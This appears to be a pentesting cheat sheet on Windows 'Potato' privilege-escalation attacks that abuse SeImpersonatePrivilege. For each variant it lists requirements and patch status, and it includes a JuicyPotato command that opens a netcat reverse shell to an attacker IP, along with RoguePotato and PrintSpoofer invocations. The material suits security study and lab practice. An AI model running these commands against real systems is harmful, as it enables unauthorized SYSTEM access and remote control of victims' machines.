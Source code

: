 
**Potato Attacks** are a family of windows privilege escalation techniques that abuse **impersonation tokens** and **misconfigured services**. These attacks typically escalates a **low-privileged user** to **SYSTEM** by tricking privileged services into running attacker controlled payloads.


### What is Token Impersonation

windows allows services with certain privileges (like ``SeImpersonatePrivilege``) to impersonate tokens of other users. if an attacker can trick a privileged service into impersonating them, they can **capture that tokem** and **spawn a privileged process**


#### Token Impersonation Flow:

1.  Trigger a privileged Service or COM object
2.  Force or wait for impersonation.
3.  Hijack the impersonated token.
4.  Execute a payload (e.g. shell) as SYSTEM

---

### Hot Potato (Legacy NTLM Relay Exploit)(tater.exe)

*   [Foxglove origina article](https://foxglovesecurity.com/2016/01/16/hot-potato/)
*   [J. lajara's Guide](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
*   [PentestLab](https://pentestlab.blog/2017/04/13/hot-potato/)

bot potato

####    Requirements

*   Windows 7/8/Server 2008-12
*   ``SeImpersonatePrivilege`` or  ``SeAssignPrimaryTokenPrivilege``
*   SYSTEM service using **``NTLM``**


#### Technique

combines **NBNS spoofing, NTLM relay** and **token impersonation** to hijack a privileged token

**Note: Depricated in modern windows**

---

### Rotten Potato (Named Pipe/ DCOM Abuse)

####    Requirements

*   ``SeImpersonatePrivilege``
*   SYSTEM COM Server(e.g. BITS)

**Note: Patched in Windows 10 1709+. Still works on older system**

---


### Juicy Potato (Standalone COM Token Hijack)

[GitHub](https://github.com/ohpe/juicy-potato/releases)
[HTB Jeeves](https://www.hackthebox.com/machines/jeeves)

####    Requirements

*   ``SeImpersonatePrivilege``
*   Pre-Windows 10 1809 /Server 2019
*   Vulnerable CLSID

#### Example

```cmd
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\windows\system32\nc64.exe -e cmd.exe 192.168.28.218 4433" -t *
```

* ``-l 1337`` : Bind port
*   ``-p`` : Payload executable (cmd.exe)
*   ``-a`` : Arguments (nc reverse shell to your kali) 
* ``-t *`` :    Token Type (auto)

---

### Rogue Potato (SMB Capture)

####    Requirements

*   ``SeImpersonatePrivilege``
*   Works on Windows 10 1809+


#### Example

```cmd
RoguePotato.exe -e "cmd.exe" -l 9999
```

---

### PrintSpoofer (Spooler Exploit)


####    Requirements

*   ``SeImpersonatePrivilege``
*   Spooler service running


#### Example

```cmd
PrintSpoofer.exe -i -c cmd
```

**Note: Patched by Microsoft(2021) Effective on older builds**

---


### SweetPotato


####    Requirements

*   ``SeImpersonatePrivilege``
*   Print Spooler enabled

**Note: Slightly more stable than PrintSpoofer. COM-based**


